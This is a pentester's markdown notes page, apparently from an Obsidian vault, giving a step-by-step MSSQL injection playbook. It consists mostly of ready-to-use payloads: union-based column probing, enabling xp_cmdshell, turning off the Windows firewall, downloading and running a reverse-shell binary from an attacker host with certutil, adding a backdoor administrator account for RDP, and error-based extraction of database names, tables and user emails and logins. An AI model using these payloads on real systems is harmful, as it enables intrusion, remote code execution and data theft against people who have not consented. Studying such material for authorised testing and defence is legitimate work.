 #### SQLi GUIDE


[https://www.exploit-db.com/papers/12975](https://www.exploit-db.com/papers/12975)

[https://perspectiverisk.com/mssql-practical-injection-cheat-sheet/](https://perspectiverisk.com/mssql-practical-injection-cheat-sheet/)

[http://www.securityidiots.com/Web-Pentest/SQL-Injection/mssql-insert-query-injection.html](http://www.securityidiots.com/Web-Pentest/SQL-Injection/mssql-insert-query-injection.html)

---
   
#### Union Based attack
From here we can observe that there are likely 3 columns, Name, Title, and Year. 

Let's try to find out the number of columns using "order by" clause:

```sql
' order by 1--
```
no error message

```sql
' order by 5--
```
error message

```sql
' order by 4--
```
error message

```sql
' order by 3--
```
error message

```sql
' order by 2--
```
no error message

So as of now we know that 2 is the last column which worked, let us prepare the union select statement

  
```sql
' union select 1,2--
```

```sql
' union select null,null--
```

```sql
' union select '1111',null--
```

```sql
' union select null,'2222'--
```
  
```sql
' union select user,null--
```
  
```sql
' union select @@version,null--
```

```sql
' union select db_name(),null --
```

#### Code execution
```sql
' union select user,null; WAITFOR DELAY '0:0:5' ; --
```

This works, as it takes five seconds for the page to load, and still displays that our SQL code executed. Now, we'll start stacking in other commands from the resource to continue.

```sql
' union select user,null; EXEC sp_configure 'show advanced options', 1; WAITFOR DELAY '0:0:5' ; --
```

Enable xp_cmdshell:
```sql
' union select user,null; RECONFIGURE; --
```

```sql
' union select user,null; EXEC sp_configure 'xp_cmdshell', 1; --
```

```sql
' union select user,null; RECONFIGURE; --
```

Disable Firewall:
```sql
' union select user,null; exec master..xp_cmdshell 'netsh advfirewall set allprofiles state off'; --
```

#### MSSQL reverse shell
[[1._Reverse Shells (WIN)]]

[[4._File Transfers]]

[[Python#Server]]

```
' union select user,null; exec master..xp_cmdshell 'certutil -urlcache -split -f http://$KALI/reverse64.exe'; --
```

![[rlwrap]]

```
' union select user,null; exec master..xp_cmdshell 'reverse64.exe'; --
```

#### MSSQL RDP access
Add foobar as a new user:
```sql
' union select user,null; exec master..xp_cmdshell 'net user foobar pass123 /add'; --
```

Add foobar to Administrators group
```sql
' union select user,null; exec master..xp_cmdshell 'net localgroup Administrators foobar /add'; --
```

Rdesktop as foobar:
```bash - kali
rdesktop $TARGET -u foobar -p pass123 -g 1024x768 -x 0x80
```

---

#### Error Based attack

```sql
1 AND 1=CONVERT(INT,@@version)--
```

In our example, we used ', to trigger the exploit.
```sql
',=CONVERT(INT,@@version)--
```

Extract number of databases:
```sql
 ',CONVERT(INT,(CHAR(58)+CHAR(58)+(SELECT top 1 CAST(COUNT([name]) AS nvarchar(4000)) FROM [master]..[sysdatabases] )+CHAR(58)+CHAR(58))))--
```

Extract database names (replace N with a number starting from 1):
```sql
',=CONVERT(INT,db_name(N))--
```

```sql
',=CONVERT(INT,(SELECT CAST(name AS nvarchar(4000)) FROM master..sysdatabases WHERE dbid=N))--
```

Extract table count:
```sql
 ',CONVERT(INT,(CHAR(58)+CHAR(58)+(SELECT top 1 CAST(COUNT(*) AS nvarchar(4000)) FROM information_schema.TABLES )+CHAR(58)+CHAR(58))))--
```

Extract table names (replace N with a number starting from 1):
  
```sql
',CONVERT(INT,(CHAR(58)+(SELECT DISTINCT top 1 TABLE_NAME FROM (SELECT DISTINCT top 1 TABLE_NAME FROM information_schema.TABLES ORDER BY TABLE_NAME ASC) sq ORDER BY TABLE_NAME DESC)+CHAR(58))))--
```

To extract column names (replace TABLE_NAME string with appropriate table name found above):
```sql
',CONVERT(INT,(CHAR(58)+(SELECT DISTINCT top 1 column_name FROM (SELECT DISTINCT top 1 column_name FROM information_schema.COLUMNS WHERE TABLE_NAME='users' ORDER BY column_name ASC) sq ORDER BY column_name DESC)+CHAR(58))))--
```

Enumerate through by changing "top ==1== column_name..." "top ==2== column_name..." "top ==3== column_name..." and so on.
```sql
',CONVERT(INT,(CHAR(58)+(SELECT DISTINCT top 1 column_name FROM (SELECT DISTINCT top 2 column_name FROM information_schema.COLUMNS WHERE TABLE_NAME='users' ORDER BY column_name ASC) sq ORDER BY column_name DESC)+CHAR(58))))--
```

To extract data, first count the entries in the table (replace table1 with appropriate table name):  
```sql
',CONVERT(INT,(CHAR(58)+CHAR(58)+(SELECT top 1 CAST(COUNT(*) AS nvarchar(4000)) FROM users)+CHAR(58)+CHAR(58))))--
```

Then, assuming the columns we wish to extract from are called column1 and column2:
```sql
',CONVERT(INT,(CHAR(58)+CHAR(58)+(SELECT top 1 email+CHAR(58)+user_id FROM (SELECT top 1 email, user_id FROM users ORDER BY email ASC) sq ORDER BY email DESC)+CHAR(58)+CHAR(58))))--
```

Extract tables from another database (change other_database and increase N):
```sql
',CONVERT(INT,(CHAR(58)+(SELECT DISTINCT top 1 TABLE_NAME FROM (SELECT DISTINCT top 1 TABLE_NAME FROM archive.information_schema.TABLES ORDER BY TABLE_NAME ASC) sq ORDER BY TABLE_NAME DESC)+CHAR(58))))--
```

Extract columns from another database (change other_database, other_table and increase N):
```sql
',CONVERT(INT,(CHAR(58)+(SELECT DISTINCT top 1 column_name FROM (SELECT DISTINCT top 1 column_name FROM archive.information_schema.COLUMNS WHERE TABLE_NAME='pmanager' ORDER BY column_name ASC) sq ORDER BY column_name DESC)+CHAR(58))))--
```

See how many data entries there are in another database (change other_database and other_table):
```sql
',CONVERT(INT,(CHAR(58)+CHAR(58)+(SELECT top 1 CAST(COUNT(*) AS nvarchar(4000)) FROM [archive]..[pmanager] )+CHAR(58)+CHAR(58))))--
```

Extract data from another database (change other_database, other_table, other_column and increase N):
```sql
',CONVERT(INT,(CHAR(58)+CHAR(58)+(SELECT top 1 alogin FROM (SELECT top 1 alogin FROM archive..pmanager ORDER BY alogin ASC) sq ORDER BY alogin DESC)+CHAR(58)+CHAR(58))))--
```

